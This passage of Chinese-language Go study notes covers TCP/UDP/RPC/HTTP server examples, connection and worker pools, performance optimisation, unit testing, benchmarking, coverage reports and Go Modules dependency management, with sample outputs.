func handleConnection(conn net.Conn) {
    defer conn.Close()
    fmt.Printf("客户端连接成功: %s\n", conn.RemoteAddr().String())
    
    // 处理客户端数据
    buffer := make([]byte, 1024)
    n, err := conn.Read(buffer)
    if err != nil {
        fmt.Printf("读取数据失败: %v\n", err)
        return
    }
    
    fmt.Printf("收到客户端消息: %s\n", string(buffer[:n]))
    
    // 回复客户端
    conn.Write([]byte("Hello from server!"))
}

func main() {
    startTCPServer()
}
```


###### udp服务器示例

```go
package main

import (
	"fmt"
	"net"
	"time"
)

func udpServerExample() {
	fmt.Println("=== UDP 服务器启动 ===")

	// 1. 监听UDP端口（注意：使用 net.ListenPacket 而不是 net.Listen）
	udpAddr, err := net.ResolveUDPAddr("udp", "127.0.0.1:8012")
	if err != nil {
		fmt.Printf("解析地址失败: %v\n", err)
		return
	}

	conn, err := net.ListenUDP("udp", udpAddr)
	if err != nil {
		fmt.Printf("监听失败: %v\n", err)
		return
	}
	defer conn.Close()

	fmt.Printf("UDP服务器监听中: %s\n", conn.LocalAddr().String())

	for {
		// 2. 读取客户端发送的数据（不需要预先建立连接）
		buffer := make([]byte, 512)

		// 设置读取超时，避免永久阻塞
		conn.SetReadDeadline(time.Now().Add(5 * time.Second))

		n, clientAddr, err := conn.ReadFromUDP(buffer)
		if err != nil {
			// 检查是否是超时错误，如果是则继续等待而不是退出
			if netErr, ok := err.(net.Error); ok && netErr.Timeout() {
				// fmt.Println("读取超时，继续等待...")
				continue
			}
			fmt.Printf("读取数据失败: %v\n", err)
			continue
		}

		fmt.Printf("收到来自 %s 的数据: %d 字节\n", clientAddr.String(), n)
		fmt.Printf("数据内容(十六进制): %x\n", buffer[:n])

		// 3. 模拟处理数据并回复客户端
		response := []byte{0x00, 0x00, 0x81, 0x80, 0x00, 0x01, 0x00, 0x01} // 模拟DNS响应头

		// 4. 发送响应到特定的客户端地址
		_, err = conn.WriteToUDP(response, clientAddr)
		if err != nil {
			fmt.Printf("发送响应失败: %v\n", err)
			continue
		}

		fmt.Printf("已向客户端发送响应: %d 字节\n", len(response))
	}
}

func main() {
	udpServerExample()
}

```

#### 2. RPC 和 Socket 编程

##### 2.1 原生RPC服务器

> "net/rpc" 包

```go
import (
    "net/rpc"
    "net"
)

type MathService struct{}

type Args struct {
    A, B int
}

type Result struct {
    Value int
}

func (m *MathService) Multiply(args *Args, result *Result) error {
    result.Value = args.A * args.B
    fmt.Printf("计算: %d * %d = %d\n", args.A, args.B, result.Value)
    return nil
}

func rpcServerExample() {
    fmt.Println("\n=== RPC 服务器示例 ===")
    
    // 注册RPC服务
    rpc.Register(new(MathService))
    
    // 监听TCP端口
    listener, err := net.Listen("tcp", ":8080")
    if err != nil {
        fmt.Printf("监听失败: %v\n", err)
        return
    }
    defer listener.Close()
    
    fmt.Println("RPC服务器运行在 :8080")
    
    // 接受连接（在goroutine中）
    go func() {
        for {
            conn, err := listener.Accept()
            if err != nil {
                fmt.Printf("接受连接失败: %v\n", err)
                continue
            }
            go rpc.ServeConn(conn)
        }
    }()
    
    // 给服务器时间启动
    time.Sleep(100 * time.Millisecond)
}

func rpcClientExample() {
    fmt.Println("\n=== RPC 客户端示例 ===")
    
    // 连接RPC服务器
    client, err := rpc.Dial("tcp", "localhost:8080")
    if err != nil {
        fmt.Printf("连接失败: %v\n", err)
        return
    }
    defer client.Close()
    
    // 调用远程方法
    args := &Args{A: 5, B: 6}
    var result Result
    err = client.Call("MathService.Multiply", args, &result)
    if err != nil {
        fmt.Printf("调用失败: %v\n", err)
        return
    }
    
    fmt.Printf("RPC调用结果: %d\n", result.Value)
}


```

##### 2.2 高性能Socket服务器

> **Socket服务器**是一个通过网络套接字（Socket）提供服务的程序，它监听特定端口，接受客户端连接，并进行数据交换。它是网络通信的核心基础设施。



```go
type SocketServer struct {
    address string
}

func NewSocketServer(addr string) *SocketServer {
    return &SocketServer{address: addr}
}

func (s *SocketServer) Start() error {
    listener, err := net.Listen("tcp", s.address)
    if err != nil {
        return err
    }
    defer listener.Close()
    
    fmt.Printf("Socket服务器运行在 %s\n", s.address)
    
    for {
        conn, err := listener.Accept()
        if err != nil {
            fmt.Printf("接受连接错误: %v\n", err)
            continue
        }
        
        go s.handleConnection(conn)
    }
}

func (s *SocketServer) handleConnection(conn net.Conn) {
    defer conn.Close()
    
    // 设置连接超时
    conn.SetDeadline(time.Now().Add(30 * time.Second))
    
    buffer := make([]byte, 1024)
    for {
        n, err := conn.Read(buffer)
        if err != nil {
            if err != io.EOF {
                fmt.Printf("读取错误: %v\n", err)
            }
            break
        }
        
        // 处理数据
        request := string(buffer[:n])
        response := s.processRequest(request)
        
        // 发送响应
        _, err = conn.Write([]byte(response))
        if err != nil {
            fmt.Printf("写入错误: %v\n", err)
            break
        }
    }
}

func (s *SocketServer) processRequest(request string) string {
    return fmt.Sprintf("处理请求: %s - 时间: %v", request, time.Now())
}

func socketServerExample() {
    fmt.Println("\n=== Socket服务器示例 ===")
    
    server := NewSocketServer(":8014")
    go server.Start()
    
    // 给服务器时间启动
    time.Sleep(100 * time.Millisecond)
    
    // 测试客户端
    conn, err := net.Dial("tcp", "localhost:8014")
    if err != nil {
        fmt.Printf("连接测试失败: %v\n", err)
        return
    }
    defer conn.Close()
    
    // 发送测试请求
    conn.Write([]byte("测试请求"))
    
    // 读取响应
    buffer := make([]byte, 1024)
    n, _ := conn.Read(buffer)
    fmt.Printf("服务器响应: %s\n", string(buffer[:n]))
}


==>

=== Socket服务器示例 ===
Socket服务器运行在 :8014
服务器响应: 处理请求: 测试请求 - 时间: 2025-11-12 12:25:02.378056566 +0800 CST m=+0.102044906
```


#### 3. HTTP 服务器实现

> net/http 包

##### 3.1 基础HTTP服务器

```go
import "net/http"

func basicHTTPServer() {
    fmt.Println("\n=== 基础HTTP服务器 ===")
    
    // 路由处理
    http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        fmt.Fprintf(w, "欢迎访问首页! 路径: %s", r.URL.Path)
    })
    
    http.HandleFunc("/api/users", func(w http.ResponseWriter, r *http.Request) {
        switch r.Method {
        case "GET":
            fmt.Fprint(w, `[{"id":1,"name":"张三"},{"id":2,"name":"李四"}]`)
        case "POST":
            fmt.Fprint(w, "创建用户成功")
        default:
            http.Error(w, "方法不允许", http.StatusMethodNotAllowed)
        }
    })
    
    // 启动服务器
    go func() {
        fmt.Println("HTTP服务器运行在 :8015")
        http.ListenAndServe(":8015", nil)
    }()
    
    time.Sleep(100 * time.Millisecond)
    
    // 测试HTTP客户端
    resp, err := http.Get("http://localhost:8015/api/users")
    if err != nil {
        fmt.Printf("HTTP请求失败: %v\n", err)
        return
    }
    defer resp.Body.Close()
    
    body, _ := io.ReadAll(resp.Body)
    fmt.Printf("HTTP响应: %s\n", string(body))
}

==》
=== 基础HTTP服务器 ===
HTTP服务器运行在 :8015
HTTP响应: [{"id":1,"name":"张三"},{"id":2,"name":"李四"}]
```


##### 3.2 高性能HTTP服务器

```go
type HighPerformanceServer struct {
    router *http.ServeMux
    server *http.Server
}

func NewHighPerformanceServer() *HighPerformanceServer {
    router := http.NewServeMux()
    //超时控制
    server := &http.Server{
        Addr:         ":8016",
        Handler:      router,
        ReadTimeout:  5 * time.Second,
        WriteTimeout: 10 * time.Second,
        IdleTimeout:  120 * time.Second, // 空闲连接2分钟后自动关闭
    }
    
    return &HighPerformanceServer{
        router: router,
        server: server,
    }
}

func (s *HighPerformanceServer) SetupRoutes() {
    s.router.HandleFunc("/health", s.healthHandler)
    s.router.HandleFunc("/api/data", s.dataHandler)
    s.router.HandleFunc("/upload", s.uploadHandler)
}

func (s *HighPerformanceServer) healthHandler(w http.ResponseWriter, r *http.Request) {
    w.Header().Set("Content-Type", "application/json")
    fmt.Fprint(w, `{"status":"healthy","timestamp":"`+time.Now().Format(time.RFC3339)+`"}`)
}

func (s *HighPerformanceServer) dataHandler(w http.ResponseWriter, r *http.Request) {
    // 模拟数据处理
    data := map[string]interface{}{
        "items": []string{"item1", "item2", "item3"},
        "count": 3,
        "time":  time.Now().Unix(),
    }
    
    w.Header().Set("Content-Type", "application/json")
    fmt.Fprintf(w, `{"items":["item1","item2","item3"],"count":3,"time":%d}`, time.Now().Unix())
}

func (s *HighPerformanceServer) uploadHandler(w http.ResponseWriter, r *http.Request) {
    if r.Method != "POST" {
        http.Error(w, "方法不允许", http.StatusMethodNotAllowed)
        return
    }
    
    //2. 资源限制 - 防止DDoS攻击
    // 限制上传大小
    r.Body = http.MaxBytesReader(w, r.Body, 10<<20) // 10MB
    err := r.ParseMultipartForm(10 << 20)
    if err != nil {
        http.Error(w, "文件太大", http.StatusBadRequest)
        return
    }
    
    fmt.Fprint(w, `{"status":"upload_success"}`)
}

func (s *HighPerformanceServer) Start() error {
    fmt.Printf("高性能HTTP服务器运行在 %s\n", s.server.Addr)
    return s.server.ListenAndServe()
}

func highPerformanceHTTPServer() {
    fmt.Println("\n=== 高性能HTTP服务器 ===")
    
    server := NewHighPerformanceServer()
    server.SetupRoutes()
    
    go server.Start()
    time.Sleep(100 * time.Millisecond)
    
    // 测试请求
    resp, err := http.Get("http://localhost:8016/health")
    if err != nil {
        fmt.Printf("测试请求失败: %v\n", err)
        return
    }
    defer resp.Body.Close()
    
    body, _ := io.ReadAll(resp.Body)
    fmt.Printf("健康检查响应: %s\n", string(body))
}

==》

=== 高性能HTTP服务器 ===
高性能HTTP服务器运行在 :8016
健康检查响应: {"status":"healthy","timestamp":"2025-11-12T12:30:42+08:00"}
```


#### 4. 高性能服务器架构


##### 4.1 连接池管理

**对象池 (Pool)**：管理**可重用的资源对象**（如数据库连接、网络连接、内存缓冲区）

```go
type ConnectionPool struct {
    pool    chan net.Conn
    factory func() (net.Conn, error)
    mu      sync.Mutex
}

func NewConnectionPool(factory func() (net.Conn, error), size int) *ConnectionPool {
    pool := &ConnectionPool{
        pool:    make(chan net.Conn, size),
        factory: factory,
    }
    
    // 预填充连接池
    for i := 0; i < size; i++ {
        conn, err := factory()
        if err != nil {
            continue
        }
        pool.pool <- conn
    }
    
    return pool
}

func (p *ConnectionPool) Get() (net.Conn, error) {
    select {
    case conn := <-p.pool:
        return conn, nil
    default:
        return p.factory()
    }
}

func (p *ConnectionPool) Put(conn net.Conn) {
    select {
    case p.pool <- conn:
        // 成功放回池中
    default:
        // 池已满，关闭连接
        conn.Close()
    }
}

func (p *ConnectionPool) Close() {
    close(p.pool)
    for conn := range p.pool {
        conn.Close()
    }
}

func connectionPoolExample() {
    fmt.Println("\n=== 连接池示例 ===")
    
    factory := func() (net.Conn, error) {
        return net.Dial("tcp", "google.com:80")
    }
    
    pool := NewConnectionPool(factory, 5)
    defer pool.Close()
    
    // 使用连接
    conn, err := pool.Get()
    if err != nil {
        fmt.Printf("获取连接失败: %v\n", err)
        return
    }
    
    // 使用连接...
    conn.Write([]byte("GET / HTTP/1.1\r\n\r\n"))
    
    // 放回池中
    pool.Put(conn)
    fmt.Println("连接池使用完成")
}
```

##### 4.2 Worker池模式

**工作池 (Worker Pool)**：管理**执行任务的线程/协程**（任务消费者）。 ==》常用于控制并发数量。

```go
type WorkerPool struct {
    workers int
    tasks   chan func()
    wg      sync.WaitGroup
}

func NewWorkerPool(workers int) *WorkerPool {
    pool := &WorkerPool{
        workers: workers,
        tasks:   make(chan func(), 1000),
    }
    
    pool.start()
    return pool
}

func (p *WorkerPool) start() {
    for i := 0; i < p.workers; i++ {
        p.wg.Add(1)
        go p.worker(i)
    }
}

func (p *WorkerPool) worker(id int) {
    defer p.wg.Done()
    
    for task := range p.tasks {
        task()
    }
}

func (p *WorkerPool) Submit(task func()) {
    p.tasks <- task
}

func (p *WorkerPool) Stop() {
    close(p.tasks)
    p.wg.Wait()
}

func workerPoolExample() {
    fmt.Println("\n=== Worker池示例 ===")
    
    pool := NewWorkerPool(10)
    
    // 提交任务
    for i := 0; i < 100; i++ {
        taskID := i
        pool.Submit(func() {
            fmt.Printf("Worker处理任务 %d\n", taskID)
            time.Sleep(10 * time.Millisecond)
        })
    }
    
    // 等待任务完成
    time.Sleep(1 * time.Second)
    pool.Stop()
}
```

#### 5. 性能优化技巧

##### 5.1 内存池优化


```go
var bufferPool = sync.Pool{
    New: func() interface{} {
        return bytes.NewBuffer(make([]byte, 0, 4096))
    },
}

func getBuffer() *bytes.Buffer {
    return bufferPool.Get().(*bytes.Buffer)
}

func putBuffer(buf *bytes.Buffer) {
    buf.Reset()
    bufferPool.Put(buf)
}

func optimizedHTTPHandler(w http.ResponseWriter, r *http.Request) {
    buf := getBuffer()
    defer putBuffer(buf)
    
    // 使用缓冲区处理请求
    buf.WriteString("处理结果: ")
    buf.WriteString(time.Now().Format(time.RFC3339))
    
    w.Write(buf.Bytes())
}
```

==》减少GC压力，**复用缓冲区**


##### 5.2 零拷贝优化

```go
func zeroCopyExample() {
    fmt.Println("\n=== 零拷贝优化 ===")
    
    // 使用io.Copy避免内存分配
    src := strings.NewReader("源数据")
    dst := &bytes.Buffer{}
    
    // 零拷贝传输
    written, err := io.Copy(dst, src)
    if err != nil {
        fmt.Printf("拷贝失败: %v\n", err)
        return
    }
    
    fmt.Printf("零拷贝传输: %d 字节\n", written)
    fmt.Printf("目标内容: %s\n", dst.String())
}
```

==》零拷贝，避免内存分配


### **测试**

> go test，单元测试Test（testing/assert）、性能测试Benchmark

Go 测试文件必须以 `_test.go`结尾。

assert断言  testing包

#### 1. 单元测试基础

执行步骤总结

1. **创建测试文件**：命名为 `*_test.go`
2. **编写测试函数**：函数名以 `Test`开头
3. **运行测试**：在终端执行 `go test`
4. **查看结果**：PASS 表示通过，FAIL 表示失败


##### 1.1 基础单元测试

```go
package main

import (
    "testing"
    "time"
)

// 被测函数
func Add(a, b int) int {
    time.Sleep(10 * time.Millisecond) // 模拟一些处理时间
    return a + b
}

func Multiply(a, b int) int {
    return a * b
}

// 普通测试
func TestAdd_Basic(t *testing.T) {
    result := Add(2, 3)
    expected := 5
    
    if result != expected {
        t.Errorf("Add(2, 3) = %d; 期望 %d", result, expected)
    }
}

// 表格驱动测试
func TestAdd_TableDriven(t *testing.T) {
    tests := []struct {
        name     string
        a, b     int
        expected int
    }{
        {"正数相加", 1, 1, 2},
        {"零值测试", 0, 5, 5},
        {"负数测试", -1, 1, 0},
        {"大数相加", 100, 200, 300},
    }
    
    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            result := Add(tt.a, tt.b)
            if result != tt.expected {
                t.Errorf("Add(%d, %d) = %d; 期望 %d", tt.a, tt.b, result, tt.expected)
            }
        })
    }
}

// 基准测试
func BenchmarkAdd(b *testing.B) {
    for i := 0; i < b.N; i++ {
        Add(100, 200)
    }
}

// 子测试示例
func TestAllOperations(t *testing.T) {
    t.Run("加法测试", func(t *testing.T) {
        if Add(2, 3) != 5 {
            t.Error("加法测试失败")
        }
    })
    
    t.Run("乘法测试", func(t *testing.T) {
        if Multiply(3, 4) != 12 {
            t.Error("乘法测试失败")
        }
    })
}
```


##### 1.2 执行测试的几种方式

| 命令                    | 功能           | 使用场景         |
| :---------------------- | :------------- | :--------------- |
| `go test`               | 运行所有测试   | 日常开发         |
| `go test -v`            | 显示详细输出   | 调试测试失败     |
| `go test -run TestName` | 运行特定测试   | 单独测试某个功能 |
| `go test -cover`        | 显示测试覆盖率 | 检查测试完整性   |
| `go test -bench=.`      | 运行基准测试   | 性能优化         |
| `go test -short`        | 跳过长时间测试 | 快速验证         |

方式一：运行当前包的所有测试（最常用）

```bash
# 在包含测试文件的目录中执行
go test

# 输出示例：
# === 基础单元测试 ===
# PASS
# ok      your_module_name   0.002s
```

方式二：运行特定测试函数

```bash
# 只运行 TestAdd 测试函数
go test -run TestAdd

# 使用正则表达式匹配多个测试
go test -run "TestAdd|TestMultiply"
```

方式三：显示详细输出

```go
# 显示每个测试的详细输出
go test -v

# 输出示例：
# === RUN   TestAdd
# === 基础单元测试 ===
# === RUN   TestAdd/Add(1,1)
# === RUN   TestAdd/Add(0,5)
# === RUN   TestAdd/Add(-1,1)
# === RUN   TestAdd/Add(100,200)
# === RUN   TestMultiply
# --- PASS: TestAdd (0.00s)
#     --- PASS: TestAdd/Add(1,1) (0.00s)
#     --- PASS: TestAdd/Add(0,5) (0.00s)
#     --- PASS: TestAdd/Add(-1,1) (0.00s)
#     --- PASS: TestAdd/Add(100,200) (0.00s)
# --- PASS: TestMultiply (0.00s)
# PASS
# ok      your_module_name   0.003s
```

方式四：生成测试覆盖率报告

```go
# 显示测试覆盖率
go test -cover

# 生成详细的覆盖率报告
go test -coverprofile=coverage.out
go tool cover -html=coverage.out -o coverage.html
```


方式五：基准测试（如果你有 Benchmark 函数）

```go
# 运行基准测试
go test -bench=.

# 运行基准测试并显示内存分配
go test -bench=. -benchmem
```


其他：

```go
# 并行测试
go test -parallel 4

# 短测试模式
go test -short
```


##### 1.3 基准测试

**基准测试（Benchmark）** 是用于**测量代码性能**的测试方法，它回答“这段代码有多快？”的问题。与普通测试（验证正确性）不同，基准测试关注的是**执行效率**。

```go
func BenchmarkAdd(b *testing.B) {
    for i := 0; i < b.N; i++ {  // b.N 由框架自动确定
        Add(100, 200)           // 被测量的核心操作
    }
}
```

**关键组件说明：**

1. **`b \*testing.B`**：基准测试的上下文对象，提供控制和方法
2. **`b.N`**：**最重要的变量**，Go测试框架自动调整，确保测试运行足够长时间（约1秒）
3. **循环内的代码**：被测量性能的核心操作


**基本命令：**

```bash
# 运行所有基准测试
go test -bench=. -benchmem

# 运行特定基准测试
go test -bench=BenchmarkAdd

# 显示内存分配信息
go test -bench=. -benchmem

# 指定运行时间（默认1秒）
go test -bench=. -benchtime=5s
```


输出说明：

```bash
# go test -bench=. 
goos: linux
goarch: amd64
pkg: main/unitTest
cpu: AMD EPYC 7K62 48-Core Processor
BenchmarkAdd-32              100          10178909 ns/op  0 B/op          0 allocs/op
PASS
ok      main/unitTest   1.095s
```


```

BenchmarkAdd-32: 测试函数名，-32表示使用了32个CPU核心并行测试
100: 循环执行了100次
10178909 ns/op: 每次操作耗时10.17毫秒
```


#### 2. 测试辅助工具和断言

##### 2.1 testing.T 方法

```go
func TestTestingMethods(t *testing.T) {
    fmt.Println("\n=== testing.T 方法演示 ===")
    
    // t.Log / t.Logf - 记录日志
    t.Log("这是一条普通日志")
    t.Logf("格式化日志: %s", "测试信息")
    
    // t.Error / t.Errorf - 标记测试失败但继续执行
    if Add(1, 1) != 2 {
        t.Error("加法测试失败")
    }
    
    // t.Fatal / t.Fatalf - 标记测试失败并立即终止
    if Multiply(0, 5) != 0 {
        t.Fatal("乘法测试失败，测试终止")
    }
    
    // t.Skip / t.Skipf - 跳过测试
    if testing.Short() {
        t.Skip("跳过耗时测试")
    }
    
    t.Log("测试继续执行")
}

// 条件测试
func TestConditional(t *testing.T) {
    if runtime.GOOS == "windows" {
        t.Skip("在Windows上跳过此测试")
    }
    
    // 只在详细模式下运行
    if !testing.Verbose() {
        t.Skip("非详细模式跳过")
    }
}

```


##### 2.2 自定义断言函数

```go
// 断言工具函数
func assertEqual(t *testing.T, got, want interface{}) {
    t.Helper() // 标记为辅助函数，错误报告更清晰
    if got != want {
        t.Errorf("得到 %v, 期望 %v", got, want)
    }
}

func assertNotEqual(t *testing.T, got, want interface{}) {
    t.Helper()
    if got == want {
        t.Errorf("不期望得到 %v", got)
    }
}

func assertNil(t *testing.T, got interface{}) {
    t.Helper()
    if got != nil {
        t.Errorf("期望nil, 得到 %v", got)
    }
}

func assertNotNil(t *testing.T, got interface{}) {
    t.Helper()
    if got == nil {
        t.Errorf("期望非nil值")
    }
}

// 使用自定义断言
func TestWithAssertions(t *testing.T) {
    fmt.Println("\n=== 自定义断言测试 ===")
    
    assertEqual(t, Add(2, 2), 4)
    assertNotEqual(t, Multiply(3, 3), 8)
    assertNil(t, nil)
    assertNotNil(t, "非空字符串")
}
```

#### 3. 性能测试 Benchmark

##### 3.1 基础性能测试

```go
func BenchmarkAdd(b *testing.B) {
    fmt.Println("=== 基础性能测试 ===")
    
    for i := 0; i < b.N; i++ {
        Add(100, 200)
    }
}

func BenchmarkMultiply(b *testing.B) {
    fmt.Println("\n=== 乘法性能测试 ===")
    
    b.ResetTimer() // 重置计时器，排除初始化时间
    
    for i := 0; i < b.N; i++ {
        Multiply(100, 200)
    }
}
```

##### 3.2 复杂性能测试

```go
// 字符串拼接性能对比
func concatenateSlow(strs []string) string {
    var result string
    for _, s := range strs {
        result += s
    }
    return result
}

func concatenateFast(strs []string) string {
    var builder strings.Builder
    for _, s := range strs {
        builder.WriteString(s)
    }
    return builder.String()
}

func BenchmarkConcatenateSlow(b *testing.B) {
    fmt.Println("\n=== 字符串拼接性能测试（慢版本）===")
    
    strs := []string{"hello", "world", "golang", "testing"}
    b.ResetTimer()
    
    for i := 0; i < b.N; i++ {
        concatenateSlow(strs)
    }
}

func BenchmarkConcatenateFast(b *testing.B) {
    fmt.Println("\n=== 字符串拼接性能测试（快版本）===")
    
    strs := []string{"hello", "world", "golang", "testing"}
    b.ResetTimer()
    
    for i := 0; i < b.N; i++ {
        concatenateFast(strs)
    }
}
```

==》

```go
# go test -bench=. -benchmem

=== 字符串拼接性能测试（慢版本）===
goos: linux
goarch: amd64
pkg: main/unitTest
cpu: AMD EPYC 7K62 48-Core Processor
BenchmarkConcatenateSlow-32    
=== 字符串拼接性能测试（慢版本）===

=== 字符串拼接性能测试（慢版本）===

=== 字符串拼接性能测试（慢版本）===

=== 字符串拼接性能测试（慢版本）===
 7688836               157.8 ns/op            56 B/op          3 allocs/op

=== 字符串拼接性能测试（快版本）===
BenchmarkConcatenateFast-32    
=== 字符串拼接性能测试（快版本）===

=== 字符串拼接性能测试（快版本）===

=== 字符串拼接性能测试（快版本）===

=== 字符串拼接性能测试（快版本）===
 8771131               135.0 ns/op            56 B/op          3 allocs/op
PASS
ok      main/unitTest   2.703s
```


##### 3.3 内存分配分析

```go
func BenchmarkMemoryAllocation(b *testing.B) {
    fmt.Println("\n=== 内存分配分析 ===")
    
    b.ReportAllocs() // 报告内存分配情况
    
    b.Run("预分配", func(b *testing.B) {
        data := make([]int, 0, 1000) // 预分配容量
        for i := 0; i < b.N; i++ {
            data = data[:0] // 重置切片
            for j := 0; j < 1000; j++ {
                data = append(data, j)
            }
        }
    })
    
    b.Run("动态分配", func(b *testing.B) {
        for i := 0; i < b.N; i++ {
            data := make([]int, 0) // 每次重新分配
            for j := 0; j < 1000; j++ {
                data = append(data, j)
            }
        }
    })
}
```

==》

```bash
# go test -bench=. -benchmem

=== 内存分配分析 ===
goos: linux
goarch: amd64
pkg: main/unitTest
cpu: AMD EPYC 7K62 48-Core Processor
BenchmarkMemoryAllocation/预分配-32                      2647351               458.1 ns/op             0 B/op          0 allocs/op
BenchmarkMemoryAllocation/动态分配-32                     216230              6070 ns/op           25208 B/op         12 allocs/op
PASS
ok      main/unitTest   3.047s
```


#### 4、覆盖率测试

测试某一个文件中函数的覆盖率

##### 步骤1：创建被测试的代码文件

**`calculator.go`**

```go
package main

import "fmt"

// 计算器结构体
type Calculator struct{}

func (c *Calculator) Add(a, b int) int {
    return a + b
}

func (c *Calculator) Subtract(a, b int) int {
    return a - b
}

func (c *Calculator) Multiply(a, b int) int {
    return a * b
}

func (c *Calculator) Divide(a, b int) (int, error) {
    if b == 0 {
        return 0, fmt.Errorf("除数不能为零")
    }
    return a / b, nil
}

// 这个函数没有被测试到！
func (c *Calculator) Power(a, b int) int {
    result := 1
    for i := 0; i < b; i++ {
        result *= a
    }
    return result
}
```

##### 步骤2：创建测试文件

**`calculator_test.go`**

```go
package main

import (
    "testing"
)

// 辅助函数
func assertEqual(t *testing.T, got, want int) {
    t.Helper()
    if got != want {
        t.Errorf("得到 %d, 期望 %d", got, want)
    }
}

func assertNil(t *testing.T, err error) {
    t.Helper()
    if err != nil {
        t.Errorf("期望无错误，但得到: %v", err)
    }
}

func assertNotNil(t *testing.T, err error) {
    t.Helper()
    if err == nil {
        t.Error("期望有错误，但得到 nil")
    }
}

// 测试用例 - 注意：我们故意不测试 Power 方法！
func TestCalculatorCoverage(t *testing.T) {
    calc := &Calculator{}
    
    t.Run("加法", func(t *testing.T) {
        assertEqual(t, calc.Add(5, 3), 8)
    })
    
    t.Run("减法", func(t *testing.T) {
        assertEqual(t, calc.Subtract(5, 3), 2)
    })
    
    t.Run("乘法", func(t *testing.T) {
        assertEqual(t, calc.Multiply(5, 3), 15)
    })
    
    t.Run("除法正常", func(t *testing.T) {
        result, err := calc.Divide(6, 3)
        assertNil(t, err)
        assertEqual(t, result, 2)
    })
    
    t.Run("除零错误", func(t *testing.T) {
        _, err := calc.Divide(6, 0)
        assertNotNil(t, err)
    })
    
    // 注意：我们故意没有写 TestPower 测试！
}
```

------

##### 📊 运行覆盖率测试

###### 1. 查看基础覆盖率

```
go test -cover
```

**输出示例：**

```
PASS
coverage: 85.7% of statements
ok      your-project   0.002s
```

**分析：** 覆盖率85.7%，因为6个方法中的5个被测试了（缺少`Power`方法）。

###### 2. 生成详细的覆盖率报告

```go
# 生成覆盖率数据文件
go test -coverprofile=coverage.out

==》
mode: set
main/unitTest/calculator.go:8.40,10.2 1 1
main/unitTest/calculator.go:12.45,14.2 1 1
main/unitTest/calculator.go:16.45,18.2 1 1


# 在浏览器中查看详细报告
go tool cover -html=coverage.out -o coverage.html

```


###### 3. 查看哪些行没有被测试

```
# 在终端显示未覆盖的代码行
go tool cover -func=coverage.out
```

**输出示例：**

```
# go tool cover -func=coverage.out
main/unitTest/calculator.go:8:  Add             100.0%
main/unitTest/calculator.go:12: Subtract        100.0%
main/unitTest/calculator.go:16: Multiply        100.0%
main/unitTest/calculator.go:20: Divide          100.0%
main/unitTest/calculator.go:28: Power           0.0%
total:                          (statements)    60.0%
```


#### 关键总结

**测试类型对比：**

| 测试类型       | 用途     | 命令               | 特点                       |
| :------------- | :------- | :----------------- | :------------------------- |
| **单元测试**   | 功能验证 | `go test -v`       | 表格驱动，子测试           |
| **性能测试**   | 性能分析 | `go test -bench .` | Benchmark前缀，b.N循环     |
| **示例测试**   | 文档示例 | `go test -v`       | Example前缀，// Output注释 |
| **覆盖率测试** | 代码覆盖 | `go test -cover`   | 生成覆盖率报告             |

**最佳实践：**

1. **表格驱动测试**：覆盖多种测试用例
2. **子测试组织**：使用t.Run分组相关测试
3. **并行测试**：提高测试执行效率
4. **测试夹具**：setup/teardown管理测试环境
5. **自定义断言**：提高测试代码可读性
6. **性能分析**：结合-benchmem分析内存分配


### **包管理**

> Go Modules、版本管理、路径管理 GOPATH（src/bin/pkg）、package

```
Go Modules ==> go.mod 依赖包管理
版本管理 
GOPATH =》存import的package
package
```

Go Modules 提供了现代化的依赖管理解决方案：

1. **模块化开发**：每个项目独立管理依赖
2. **版本控制**：语义化版本+最小版本选择
3. **安全可靠**：checksum数据库验证完整性
4. **灵活配置**：代理、私有仓库、工作区支持

#### 从 GOPATH 到 Go Modules 的演进

**1.1 GOPATH 时代（Go 1.10 及之前）**

```bash
# GOPATH 目录结构
GOPATH/
├── bin/           # 可执行文件
│   └── myapp
├── pkg/           # 编译缓存
│   └── linux_amd64/
│       └── github.com/
└── src/           # 源代码
    └── github.com/
        └── user/
            └── myproject/
                ├── main.go
                └── go.mod
```

**1.2 Go Modules 新时代（Go 1.11+）**

```bash
# 现代项目结构（不再依赖GOPATH）
myproject/
├── go.mod          # 模块定义
├── go.sum          # 依赖校验
├── cmd/
│   └── myapp/
│       └── main.go
├── internal/
│   └── utils/
│       └── helper.go
├── pkg/
│   └── api/
│       └── client.go
└── go.mod
```

#### Go Modules 核心概念

##### 模块定义文件：go.mod

```go
// go.mod 示例
module github.com/username/myproject

go 1.21

require (
    github.com/gin-gonic/gin v1.9.1
    github.com/stretchr/testify v1.8.4
    golang.org/x/sync v0.4.0
)

require (
    github.com/bytedance/sonic v1.9.1 // indirect
    golang.org/x/net v0.19.0 // indirect
)

replace github.com/old/pkg => github.com/new/pkg v1.2.3

exclude github.com/vulnerable/pkg v1.0.0
```

##### 版本管理机制

```
# 语义化版本控制 (SemVer)
v1.2.3
# 主版本.次版本.修订版本
# - 主版本：不兼容的API更改
# - 次版本：向后兼容的功能性新增  
# - 修订版本：向后兼容的问题修正

# 特殊版本
v1.2.3-beta.1    # 预发布版本
v1.2.3+20231128  # 构建元数据
```


#### Go Modules 实战操作

###### 初始化模块

```go
# 创建新模块
go mod init github.com/username/myproject

# 在现有项目中初始化
cd existing-project
go mod init

# 指定Go版本
go mod init -go=1.21
```

###### 依赖管理命令

```go
# 添加依赖
go get github.com/gin-gonic/gin@latest        # 最新版本
go get github.com/gin-gonic/gin@v1.9.1         # 指定版本
go get github.com/gin-gonic/gin@master         # 分支版本

# 更新依赖
go get -u github.com/gin-gonic/gin             # 更新单个包
go get -u ./...                                # 更新所有包
go get -u=patch ./...                         # 只更新修订版本

# 清理依赖
go mod tidy                                    # 清理未使用的依赖
